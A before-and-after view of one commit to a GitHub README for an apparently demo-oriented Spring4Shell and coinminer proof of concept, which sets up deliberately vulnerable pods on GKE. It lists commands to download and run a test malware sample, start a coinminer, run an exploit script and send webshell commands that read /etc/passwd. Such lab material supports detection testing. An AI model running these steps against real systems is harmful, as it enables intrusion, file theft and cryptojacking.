

Before and after one commit to janeshin059/Spring4ShellPoc, a Markdown page: README.md, the part around the change. Shown: that part at 93% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Add the needed YAML file and rewrite the README file to deploy the coinminer and spring4shell container images to GKE
 Changes to be committed:
	new file:   Dockerfile.vulmachine/coinminer
	new file:   Dockerfile.vulmachine/dockerfile.vulmachine
	modified:   README.md
	new file:   README_Docker.md
	new file:   checkService.png
	new file:   getAll.png
	new file:   jie_xdr_for_cloud_demo.yaml

````diff
--- a/README.md
+++ b/README.md
@@ -1,23 +1,63 @@
-# Spring4Shell PoC
+# Spring4Shell and Coinminer PoC
 
-## This is for testing purpose
-### Setup the vulnerable server
-Setup you vulnerable server
+## This is for testing and demo purpose
+### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
+Apply for the provided YAML file:
 ```sh
-docker run -td -p 8080:8080 jieliau/spring4shell
+$ kubectl apply -f jie_xdr_for_cloud_demo.yaml
+pod/jie-spring4shell-pod created
+pod/vulmachine-pod created
+service/jie-sprig4shell created
 ```
-And open up the browser, connect to following address:
+Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
 ```sh
-http://127.0.0.1:8080/helloworld/greeting
+$ kubectl get all
 ```
-Now, your vulnerable server is ready
-### Usage
+![image](https://github.com/jieliau/Spring4ShellPoc/blob/master/getAll.png)
+
+Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell
+
+
+### Use cases
+#### Get the malware sample from Wildfire and execute it
 ```sh
-$ python3 exploit.py --url "http://127.0.0.1:8080/helloworld/greeting"
+$ kubectl exec -it vulmachine-pod  -- /bin/bash
+root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
+--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
+Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
+Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 8608 (8.4K) [application/octet-stream]
+Saving to: '/tmp/sample'
+
+/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s
+
+2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]
+
+root@vulmachine-pod:/# chmod +x /tmp/sample
+root@vulmachine-pod:/# ./tmp/sample
+```
+
+#### Execute the coinminer
+```sh
+$ kubectl exec -it vulmachine-pod  -- /bin/bash
+root@vulmachine-pod:/# ./tmp/coinminer
+```
+
+#### Exploit the Spring4Shell service
+Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.
+![image](https://github.com/jieliau/Spring4ShellPoc/blob/master/checkService.png)
+
+Once you see the above, you are good to exploit it.
+```sh
+$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
 ```
 After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
 ```sh
-$ http://127.0.0.1:8080/webshell.jsp?cmd=id
-$ http://127.0.0.1:8080/webshell.jsp?cmd=cat%20/etc/passwd
-$ http://127.0.0.1:8080/webshell.jsp?cmd=whoami
+$ http://"your service external ip":8080/webshell.jsp?cmd=id
+$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
+$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
 ```
+
+## Credit
+[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
````
Also changed, not shown: README_Docker.md (added, +23 -0 lines), checkService.png (added), getAll.png (added), 3 other files.
